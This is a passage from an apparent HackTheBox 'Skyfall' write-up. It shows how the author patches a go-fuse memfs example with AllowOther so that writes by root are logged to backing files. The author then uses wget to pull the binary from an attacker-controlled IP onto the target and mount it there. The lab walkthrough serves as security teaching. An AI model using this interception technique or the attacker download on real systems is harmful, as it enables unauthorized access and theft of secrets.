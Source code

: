 ```
oxdf@hacky$ ./memfs 
usage: main MOUNTPOINT BACKING-PREFIX
I’ll create a test directory and run it, where it hangs:

oxdf@hacky$ ./memfs ~/testfs/ memfsoutput-
Mounted!
From another terminal, I’ll write some files into the new FS:

oxdf@hacky$ echo "testing..." > testfs/test1
oxdf@hacky$ echo "testing again..." > testfs/test2
In the directory I ran memfs from, there’s two new files:

oxdf@hacky$ ls
main.go  memfs  memfsoutput-1  memfsoutput-2
oxdf@hacky$ cat memfsoutput-1
testing...
oxdf@hacky$ cat memfsoutput-2
testing again...
If I try to write to the filesystem as root, it fails:

root@hacky:/home/oxdf# echo "this is a root test" > testfs/from_root
-bash: testfs/from_root: Permission denied
That’s because my system isn’t set up with user_allow_others. If I go into /etc/fuse.conf and uncomment that line, it still fails. I’ll need to update the Go script slightly. I’ll kill the mount, and sudo umount ~/testfs.

In main.go, I’ll add an option for the fuse creation:

        server, err := fuse.NewServer(conn.RawFS(), mountPoint, &fuse.MountOptions{
                Debug: *debug,
                AllowOther: true, // added this
        })
Now I’ll rebuild and re-mount:

oxdf@hacky$ go build -buildvcs=false
oxdf@hacky$ ./memfs ~/testfs/ memfsoutput-
Mounted!
Now from a root shell:

root@hacky:/home/oxdf# echo "now it should work" > testfs/as_root
root@hacky:/home/oxdf# cat testfs/as_root 
now it should work
And the file got logged:

root@hacky:/home/oxdf# cat hackthebox/skyfall-10.10.11.254/go-fuse/example/memfs/memfsoutput-1 
now it should work
On Skyfall
I’ll upload the compiled memfs to Skyfall, create a directory, and mount it:

askyy@skyfall:/dev/shm$ wget 10.10.14.6/memfs
--2024-08-27 18:33:29--  http://10.10.14.6/memfs
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3500122 (3.3M) [application/octet-stream]
Saving to: ‘memfs’

memfs                   100%[=============================>]   3.34M  11.8MB/s    in 0.3s    

2024-08-27 18:33:30 (11.8 MB/s) - ‘memfs’ saved [3500122/3500122]

askyy@skyfall:/dev/shm$ mkdir out
askyy@skyfall:/dev/shm$ chmod +x memfs 
askyy@skyfall:/dev/shm$ ./memfs
```